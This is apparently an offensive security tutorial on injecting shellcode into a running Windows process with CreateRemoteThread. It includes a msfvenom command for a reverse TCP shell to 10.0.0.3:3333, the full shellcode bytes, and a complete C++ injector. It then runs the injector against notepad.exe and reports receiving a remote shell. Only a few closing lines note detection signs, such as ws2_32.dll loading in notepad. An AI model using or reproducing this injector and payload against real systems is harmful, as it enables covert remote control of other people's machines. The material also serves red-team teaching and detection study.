



# Shellcode Injection

Code Injection is a process to inject code into another running process.

In this article, We are gonna focus on injecting shellcode using CreateRemoteThread API.

First off, Let's use Metasploit to generate our malicious shellcode. It's a reverse tcp shell.


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
```


<div data-full-width="false">

<figure><figcaption></figcaption></figure>

</div>

Now our C++ code to inject and execute this shellcode into a process by following steps:

* First, we need to open our target process, using `OpenProcess` API with the parameter `PROCESS_ALL_ACCESS` which gain all possible access rights for a process object.
* Then we will use `VirtualAllocEx`  API, which allocates a region of memory within the virtual address space of a target process equal to our size of shellcode. We use the `MEM_RESERVE and MEM_COMMIT` parameters for memory allocation type and `PAGE_EXECUTE_READWRITE` for memory protection of the pages.
* Write the shellcode data to the allocated memory area in the target process using the `WriteProcessMemory` API.
* Lastly, create a new thread in the virtual address space of the target process with the `CreateRemoteThread` API to execute the injected shellcode.


```

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>


void printError(const char* error)
{
	printf("%s is failing. Error code: 0x%x\n\n", error, GetLastError());
}


int main(int argc, char *argv[])
{
	//msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\x47\xdd\xc8\xf6\xf5\xe1\xd4\x3a\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xbb\x95\x4b"
		"\x12\x05\x09\x14\x3a\x47\xdd\x89\xa7\xb4\xb1\x86\x6b\x11"
		"\x95\xf9\x24\x90\xa9\x5f\x68\x27\x95\x43\xa4\xed\xa9\x5f"
		"\x68\x67\x95\x43\x84\xa5\xa9\xdb\x8d\x0d\x97\x85\xc7\x3c"
		"\xa9\xe5\xfa\xeb\xe1\xa9\x8a\xf7\xcd\xf4\x7b\x86\x14\xc5"
		"\xb7\xf4\x20\x36\xd7\x15\x9c\x99\xbe\x7e\xb3\xf4\xb1\x05"
		"\xe1\x80\xf7\x25\x6a\x54\xb2\x47\xdd\xc8\xbe\x70\x21\xa0"
		"\x5d\x0f\xdc\x18\xa6\x7e\xa9\xcc\x7e\xcc\x9d\xe8\xbf\xf4"
		"\x31\x37\x6c\x0f\x22\x01\xb7\x7e\xd5\x5c\x72\x46\x0b\x85"
		"\xc7\x3c\xa9\xe5\xfa\xeb\x9c\x09\x3f\xf8\xa0\xd5\xfb\x7f"
		"\x3d\xbd\x07\xb9\xe2\x98\x1e\x4f\x98\xf1\x27\x80\x39\x8c"
		"\x7e\xcc\x9d\xec\xbf\xf4\x31\xb2\x7b\xcc\xd1\x80\xb2\x7e"
		"\xa1\xc8\x73\x46\x0d\x89\x7d\xf1\x69\x9c\x3b\x97\x9c\x90"
		"\xb7\xad\xbf\x8d\x60\x06\x85\x89\xaf\xb4\xbb\x9c\xb9\xab"
		"\xfd\x89\xa4\x0a\x01\x8c\x7b\x1e\x87\x80\x7d\xe7\x08\x83"
		"\xc5\xb8\x22\x95\xbf\x4b\x96\xa7\x08\x18\xee\xfa\xf6\xf5"
		"\xa0\x82\x73\xce\x3b\x80\x77\x19\x41\xd5\x3a\x47\x94\x41"
		"\x13\xbc\x5d\xd6\x3a\x4a\xd8\xc2\xf6\xf5\xe2\x95\x6e\x0e"
		"\x54\x2c\xba\x7c\x10\x95\x80\x0b\xaa\xee\xf1\x0a\x34\x98"
		"\xb3\xad\xb5\xc9\xf7\xf5\xe1\x8d\x7b\xfd\xf4\x48\x9d\xf5"
		"\x1e\x01\x6a\x17\x90\xf9\x3f\xb8\xd0\x14\x72\xb8\x1d\x80"
		"\x7f\x37\xa9\x2b\xfa\x0f\x54\x09\xb7\x4f\x0b\xdb\xe5\xa7"
		"\x22\x1d\xbe\x7c\x26\xbe\x2a\x06\x85\x84\x7f\x17\xa9\x5d"
		"\xc3\x06\x67\x51\x53\x81\x80\x2b\xef\x0f\x5c\x0c\xb6\xf7"
		"\xe1\xd4\x73\xff\xbe\xa5\x92\xf5\xe1\xd4\x3a\x47\x9c\x98"
		"\xb7\xa5\xa9\x5d\xd8\x10\x8a\x9f\xbb\xc4\x21\xbe\x37\x1e"
		"\x9c\x98\x14\x09\x87\x13\x7e\x63\x89\xc9\xf7\xbd\x6c\x90"
		"\x1e\x5f\x1b\xc8\x9e\xbd\x68\x32\x6c\x17\x9c\x98\xb7\xa5"
		"\xa0\x84\x73\xb8\x1d\x89\xa6\xbc\x1e\x1c\x77\xce\x1c\x84"
		"\x7f\x34\xa0\x6e\x43\x8b\xe2\x4e\x09\x20\xa9\xe5\xe8\x0f"
		"\x22\x02\x7d\xfb\xa0\x6e\x32\xc0\xc0\xa8\x09\x20\x5a\x24"
		"\x8f\xe5\x8b\x89\x4c\x53\x74\x69\xa7\xb8\x08\x80\x75\x31"
		"\xc9\xe8\x3c\x3b\xd7\x48\x0d\x15\x94\xd1\x81\x00\xce\xba"
		"\x99\x9f\xe1\x8d\x7b\xce\x07\x37\x23\xf5\xe1\xd4\x3a";
		

	printf("Injecting to PID %i", atoi(argv[1]));

	HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	if (processHandle == INVALID_HANDLE_VALUE)
	{
		printError("OpenProcess");
		return 0;
	}

	PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	if (!remoteBuffer)
	{
		printError("VirtualAlllocEx");
		CloseHandle(processHandle);
		return 0;
	}

	if (!WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL))
	{
		printError("WriteProcessMemory");
		CloseHandle(processHandle);
		return 0;
	}
	
	HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	if (!remoteThread)
	{
		printError("CreateRemoteThread");
		CloseHandle(processHandle);
		return 0;
	}

	CloseHandle(processHandle);


	return 0;
}
```




Then, we will run our `exe` with the `process ID` of our target process in which we want to inject our shellcode. For this scenario we are taking the `notepad.exe`:

<figure><figcaption></figcaption></figure>

We can see that the process ID of `notepad.exe` is `6392`. Now, on running our executable.

`ShellcodeInj.exe 6392`

<figure><figcaption></figcaption></figure>

We received the reverse shell on our Netcat listener and have remote access to our target system.

We can see `ShellcodeInj.exe` created a new process `cmd.exe` under `notepad.exe`

Upon further analysis of notepad.exe, we can see the `ws2_32.dll` module loaded in the module section, which is typically not loaded under normal circumstances for notepad. This module handles socket management, indicating potential abnormal activity within the process.

<figure><figcaption></figcaption></figure>

Also on checking the `memory` tab, we can see, the `ws2_32.dll` loaded, and having the read and execute permission set for it.&#x20;

<figure><figcaption></figcaption></figure>

Hene, we successfully injected the shellcode in target process.
